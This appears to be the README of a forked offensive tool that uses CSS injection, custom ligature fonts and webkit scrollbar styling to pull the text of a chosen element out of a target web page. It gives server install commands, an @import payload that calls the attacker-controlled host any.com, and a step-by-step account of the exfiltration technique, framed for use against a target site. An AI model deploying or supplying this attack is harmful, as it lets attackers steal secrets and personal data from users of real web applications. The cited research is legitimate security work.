 ![](githubDemo.mp4)

# Preface

Code is kinda janky and not well tested. 

# Install on your own server

0. Get a Debian 12 VPS(512MB RAM and 1 Core CPU was enough for me) and link a domain(any.com) to your server and wait for it to  propagate(https://www.whatsmydns.net/) (usually takes max 1hour depending on the ttl configured for your domain)

1. Run the following as root on the Debian 12 VPS:
```bash
apt install apache2 certbot python3-certbot-apache -y && certbot --authenticator webroot --installer apache --register-unsafely-without-email
```
and agree to the terms, enter your domain(any.com) and enter /var/www/html as webroot then run the following as root on the Debian 12 VPS:
```bash
apt install git -y && git clone https://github.com/sys0wn/css-scrollbar-attack && cd css-scrollbar-attack && chmod +x install.sh && bash install.sh
```

# How to use it

0. Use a chromium-based Browser that supports webkit scrollbar-styling. I have tested Chromium and Google Chrome.
1. On the website you are trying to target pick an html element you want to steal.
2. Find a combination of css selectors, that points directly to the element(e.g: p { color: red } targets all p-tags, so if there is more than 1 it doesn't point to ONLY one element and therefore no exfiltration will be possible). Use Selectors like ```https://developer.mozilla.org/en-US/docs/Web/CSS/CSS_selectors``` and combine as many as needed to point directly to the target element. Examples for this:

```
<!doctype html>
<body>
<div>
   <h4>a</h4>
   <p id=leakme class="leakme">stealThis</p>
</div>
</body>
</html>
```

Here, the "stealThis" could be pointed to for example by: p {}, div > p {}, #leakme {}, .leakme {}, div > #leakme {}, body > div > p {}, h4 + p {}, div > h4 + p {} and many many more


You can test if your combination of selectors points directly to your target element by hitting CTRL+SHIFT+C and searching for something like ```#leakme``` or ```div > p```; If there is only one result for your search that is a combination of selectors you can use!

3. Create the payload for your CSS-Injection by plugging your combination of selectors into the following syntax: ```<style>@import url('//any.com/%23leakme/css.css');</style>``` where you have to replace the %23leakme with your URL-ENCODED(you can use websites like https://www.urlencoder.org/) combination of selectors.

# Example

```
<!doctype html>
<body>
<div>
   <h4>a</h4>
   <p id=leakme class="leakme">stealThis</p>
</div>
</body>
</html>
```

```div > h4 + p```  -->  ```<style>@import url('//any.com/div%20%3E%20h4%20%2B%20p/css.css');</style>```

# Demo

https://jsfiddle.net/q3mc5kxn/1/

https://any.com/index.html                 //Once you've installed it on your server


# How it works (short)

If <style>@import url('//any.com/div%20%3E%20h4%20%2B%20p/css.css');</style> is injected into a website the server will create a lot of fonts with different ligatures (https://en.wikipedia.org/wiki/Ligature_(writing)) that are used to bruteforce one character at a time by performing a binary search on the target text and exfiltrating it to a remote server. All the logic is serverside and the only client-side code that has to be injected is the <style> tag above that points to the target element.

# How it works (medium)


https://any.com/ is running a node server(this Github project), which will be the backend for the attack and serve all the css and handle the logic involved.
***
A ligature in a font is a sequence of at least two characters, which has its own graphical representation (for more info https://en.wikipedia.org/wiki/Ligature_(writing))
***

1. The @import will send a GET request to https://any.com/div%20%3E%20h4%20%2B%20p/css.css
2. The server receives the combination of selectors ```div%20%3E%20h4%20%2B%20p``` and therefore now knows which element to target and which text to steal
3. As a response to the GET request the following css is returned ```@import url('//any.com/start');```. This css will also be applied to the target page and a GET Request will be sent to https://any.com/start

4. Now, as a response to /start the any.com backend will do the following:

- For each character in "@.abcdefghijklmnopqrstuvwxyz...", generate a ligature starting from the first-letter. So lets say the text of the target element starts with a "s"; we will create 3 fonts: 1 for "@.abcdefgh", 1 for "ijklmnopqr" and 1 for "stuvwxyz". Now we create the ligatures: font 1 will have a ligature for "s@", "s.", "sa", "sb" ...  font2 will have a ligature for "si", "sj" ... and so on. 
- Using a CSS animation apply each of the fonts to the target-element one after each other. The first font that causes one of the ligatures("s@", "s.", "st", "sa" ...) to render is interesting to us, as if e.g. the font for "@.abcdefgh" causes a ligature to render, that gives us the information, that the second character is one of "@.abcdefgh". (Because a ligature from the first letter to the second letter was rendered which means that the second character has to be one of "@.abcdefgh".
- In order to exfiltrate this information, each of the ligatures has a very high ```horiz-adv-x``` value. This will result in the target-element getting substantially wider if the current "correct" font  is applied and a ligature is rendered. This width change will cause a scrollbar to appear. If the scrollbar appears, it will exfiltrate the information, that the second letter is one of "@.abcdefgh". This is done like this:

```
p::-webkit-scrollbar {
    background: blue;
}
p::-webkit-scrollbar:horizontal {
    background:var(--x);
}`;
```

Where --x (a css variable) is set to something like "https://any.com/@.abcdefgh" when font1 is applied at the beginning.

- Now, start again. This time create ligatures for each character in "@.abcdefgh" -> font1: "@.ab" font2: "cde", font3: "fgh"
- Keep using the same technique to perfrom a kind of binary search on each letter using ligatures, cutting the amount of possible letters in half every time until only one remains. Then move on the next letter performing the next binary search until the entire word is leaked.

References: https://aszx87410.github.io/beyond-xss/en/ch3/css-injection-2/, https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection, https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf, https://github.com/cgvwzq/css-scrollbar-attack/

# How it works (long)

Read the (kinda) documented source code (index.js)

# Limitations

- In the current configuration ~30 chars is max amount that can be exfiltrated but this is not a hard limit and can be increased I think
- Characters a-z A-Z 0-9 .@+!#=$^    but in theory there are no limitations which printable characters are possible, it's just a hassle because you have to correctly encode it and stuff.
- The Browser tab from which the text will be exfiltrated always has to stay in focus(don't switch tab, dont minimize window etc.)
- It takes some time to exfiltrate the text, but this can be optimised, for example by using only a-z if the others aren't needed or decreasing the DURATION and/or DELAY variable in the js and so on. The current configuration of the code is aimed at reliability and support for as much chars as possible etc.

# Tip

- If you face seemingly illogical errors while trying to reproduce this go to: ```chrome://settings/privacy``` and clean the cache(fonts are cached which might mess with the detection and exfiltration.
***
# This repo is a fork of https://github.com/cgvwzq/css-scrollbar-attack which I have modified, improved and documented. Thanks to cgvwzq for the awesome code and thanks to @SecurityMB (https://sekurak.pl/wykradanie-danych-w-swietnym-stylu-czyli-jak-wykorzystac-css-y-do-atakow-na-webaplikacje/) for coming up with (part of) the idea (I think).
